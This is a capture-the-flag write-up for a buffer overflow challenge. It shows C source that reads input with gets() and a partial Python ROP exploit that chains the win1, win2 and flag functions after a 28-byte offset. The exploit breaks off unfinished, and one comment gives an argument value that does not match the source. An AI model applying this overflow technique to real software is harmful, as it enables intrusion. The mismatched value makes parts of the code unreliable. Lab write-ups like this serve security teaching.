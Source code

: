 ```c

  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

This challenge presents us with a typically looking memory corruption. With `pattern_offset.rb` we find the offset to control `eip`. After this, we begin to break down the logic of the code. To get the flag, we need to set both `win1` and `win2` to true while also passing the argument `0xDEADBAAD` to the `flag()` function. To understand how to call these functions and pass them each parameters requires we understand how to call stack frame works.

```
Address of win1
Return to address of win_function2()
Return to address of flag
argument for win_function2()
arguement for flag()
```

```python
eip_offset = 28
win1_addr = 0x080485cb
win2_addr = 0x080485d8
flag_addr = 0x0804862b

def exploit(r):
    payload = ''
    payload += 'A'*eip_offset
    #payload += os.popen("`locate 'pattern_create.rb'` -l 50").read()

    #Return to win1 then win2 with arg1=0xBAAAAAAD
    rop = ''
    rop += p32(win1_addr)
    rop += p32(win2_addr)  #return addr after win_function1()
    rop += p32(flag_addr)  #return addr after win_function2()
```